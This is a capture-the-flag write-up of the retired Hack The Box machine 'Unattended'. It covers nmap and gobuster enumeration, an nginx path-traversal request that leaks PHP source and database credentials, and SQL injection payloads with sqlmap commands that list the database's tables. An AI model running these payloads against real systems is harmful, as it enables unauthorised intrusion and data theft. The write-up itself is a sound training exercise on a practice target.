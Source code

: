 # Unattended

This is the write-up for the box Unattended that got retired at the 24th August 2019.
My IP address was 10.10.14.4 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.126    unattended.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/unattended.nmap 10.10.10.126
```

```markdown
PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.nestedflanders.htb/organizationName=Unattended ltd/stateOrProvinceName=IT/countryName=IT
| Not valid before: 2018-12-19T09:43:58
|_Not valid after:  2021-09-13T09:43:58
```

Adding **nestedflanders.htb** to my hosts file.

## Checking HTTP and HTTPS

Browsing to both sites with the IP address gives us a blank page and browsing to **www.nestedflanders.htb** gives us the default Apache2 page.
We will run _gobuster_ against this to get any directories:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.10.126/
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u https://10.10.10.126/ -k
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://www.nestedflanders.htb -k
```

The pages with SSL need the _-k_ parameter to skip SSL verification. We get the following directories:
- /.htacces
- /.hta
- /.htpasswd
- /dev
- index.html
- index.php

All of them give us the HTTP code _403 Forbidden_ except for **/dev** that gives us a _301 Moved Temporarily_ and says:
> dev site has been moved to his own server

On **index.php** we find a real web page with more information.

```markdown
### main (/index.php?id=25)
Hello visitor,
we are very sorry to show you this ridiculous page but we had to restore our website to 2001-layout.
As a partial recover, we offer you a printed portfolio: just drop us an email with a contact request. 

### about (/index.php?id=465)
Hello visitor,
our Company is world wide leading expert about Nesting stuff.
We can nest almost everything after or before anything based on your needs.
Feel free to contact us with usual email addresses, our contact form is currently offline because of a recent attack. 

### contact (/index.php?id=587)
Hello visitor,
thanks for getting in touch with us!
Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.
Please come back later.
```

The most interesting about this, is that those 3 pages all have a different value in the _id_ query.
This page gets confused when we put a trailing _single quote_ at the end of the query:
```markdown
hxxps://www.nestedflanders.htb/index.php?id=465'
```

This brings us back to to the main page so we definitely got a **SQL Injection** here.

When we examine the _/dev_ directory in Burpsuite we can see it adds a trailing slash at the end of the path and that is the location were we are redirected.
As we know that this is nginx, we can abuse a misconfiguration that [breaks the parser logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) of that.
In short it looks like this:
```markdown
GET /dev../html/index.php 
```

And this gives us the source code of **index.php**. This file can be found in this repository as it has important information.
- $username = "nestedflanders";
- $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
- include "6fb17817efb4131ae4ae1acae0f7fd48.php";
  - /* removed everything because of undergoing investigation, please check dev and staging */


### SQL Injection

If we try out some SQLi we find out that we get different responses with **UNION Injections**. For example like this, we get no content on the page:
```markdown
GET /index.php?id=465'+union+select+1--+-
```

Lets send the request to SQLMap:
```markdown
GET /index.php?id=465 HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=pj052g0hbe1jsbslvn86d0bg51
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
```markdown
sqlmap -r id.req -p id --batch

sqlmap -r id.req -p id --batch --dbs
- We get the table neddy (that we also can find in the source code)

sqlmap -r id.req -p id --batch -D neddy --tables
```

We got the tables from SQLMap:
```markdown
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```


